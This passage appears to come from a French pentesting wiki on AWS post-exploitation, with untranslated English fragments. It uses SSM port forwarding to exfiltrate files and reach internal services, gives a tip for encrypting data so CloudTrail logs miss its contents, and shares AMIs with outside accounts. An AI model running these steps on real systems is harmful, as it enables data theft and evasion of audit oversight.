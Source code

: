 
#### Transfert rapide Local ↔️ Distant de port (AWS-StartPortForwardingSession)

Si vous devez seulement rediriger **un port TCP depuis l'instance EC2 vers votre machine locale**, vous pouvez utiliser le document SSM `AWS-StartPortForwardingSession` (aucun paramètre d'hôte distant requis) :
```bash
aws ssm start-session --target i-0123456789abcdef0 \
--document-name AWS-StartPortForwardingSession \
--parameters "portNumber"="8000","localPortNumber"="8000" \
--region <REGION>
```
La commande établit un tunnel bidirectionnel entre votre poste de travail (`localPortNumber`) et le port sélectionné (`portNumber`) sur l'instance **without opening any inbound Security-Group rules**.

Common use cases:

* **File exfiltration**
1. Sur l'instance, démarrez un serveur HTTP rapide pointant vers le répertoire que vous voulez exfiltrer :

```bash
python3 -m http.server 8000
```

2. Depuis votre poste de travail, récupérez les fichiers via le tunnel SSM :

```bash
curl http://localhost:8000/loot.txt -o loot.txt
```

* **Accès aux applications web internes (e.g. Nessus)**
```bash
# Forward remote Nessus port 8834 to local 8835
aws ssm start-session --target i-0123456789abcdef0 \
--document-name AWS-StartPortForwardingSession \
--parameters "portNumber"="8834","localPortNumber"="8835"
# Browse to http://localhost:8835
```
Astuce : compressez et chiffrez les preuves avant de les exfiltrating afin que CloudTrail n'enregistre pas le clear-text content :
```bash
# On the instance
7z a evidence.7z /path/to/files/* -p'Str0ngPass!'
```
### Partager AMI
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
### Rechercher des informations sensibles dans les AMIs publiques et privées

- [https://github.com/saw-your-packet/CloudShovel](https://github.com/saw-your-packet/CloudShovel): CloudShovel est un outil conçu pour rechercher des informations sensibles dans des Amazon Machine Images (AMIs) publiques ou privées. Il automatise le processus de lancement d'instances à partir des AMIs ciblées, le montage de leurs volumes, et l'analyse à la recherche de potentiels secrets ou données sensibles.
